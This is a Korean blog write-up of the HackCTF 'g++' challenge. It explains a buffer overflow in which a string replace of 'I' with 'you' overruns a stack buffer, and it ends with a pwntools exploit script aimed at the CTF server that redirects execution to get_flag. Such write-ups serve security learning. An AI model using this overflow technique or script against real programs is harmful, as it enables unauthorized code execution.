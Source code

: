 ```yaml
---
layout: post
title:  "HacCTF g++ write-up"
date:   2020-01-08 19:45:55
image:  hackctfgpwn.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled.png)

NX 비트가 걸려있는 것을 확인 할 수 있다  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%201.png)

프로그램을 실행시키면 다음과 같은 문구가 뜨고 입력할 수 있는 공간이 뜬다

그리고 So, + 입력한 문자열이 나온다. 

코드를 한번 봐보자  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%202.png)

메인 함수는 별게 없다. Vuln함수를 봐보자  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%203.png)  
vuln 함수는 다음과 같다. c++ 코드로 되어 있는것 같은데 굉장히 복잡해 보인다.

우선 s변수에 fgets로 값을 입력받는다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%204.png)

그리고 get_flag 함수가 있는데 이거를 실행시켜야 플래그를 획득할 수 있을 것같다

흐름을 보쟈면, fgets 함수와  strcpy 함수를 이용하여 bof를 일으키고, get_flag 함수를 실행시키면 될것같다

<br><br>

### 2. 접근방법

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%205.png)

- 코드를 보면 처음에 입력한 값이 s에 들어가고 그걸 input에 복사한다
- 그다음 v5에 "you", v7에 "I"를 넣고
- replace 함수를 이용하여 v4에 input, v7 변수를 인자로 하여 "I"를 "you"로 변경시킨다

<br>
그렇다면, 처음에 fgets는 32바이트 크기만 입력을 받으므로, ret 주소까지의 거리인 ebp-3Ch , 즉 64바이트 크기만큼 입력을 못한다

하지만 replace 함수를 통하여 I 가 you 로 변경되기 때문에 이를 이용하면 될 것이다

정리하면

- ret까지 필요한 크기 : 64byte
- 페이로드 : I * 21 == you * 21 = 63  여기에 + 1byte(아무값)

이렇게 입력하면 될 것이다

<br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다
```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3011)

#p.recvuntil("Tell me something about yourself:")
#p.recv(34)
payload = "A"
payload += "I"*21
payload += p32(0x08048F0D)

p.sendline(payload)

p.interactive()
```
recvuntil() 사용하면 중간에 멈추고 진행이 안된다. 이는 서버 오류인듯 싶다


<br><br><br>
### 4. 몰랐던 개념

c++ 아이다 코드에 익숙해져야겠다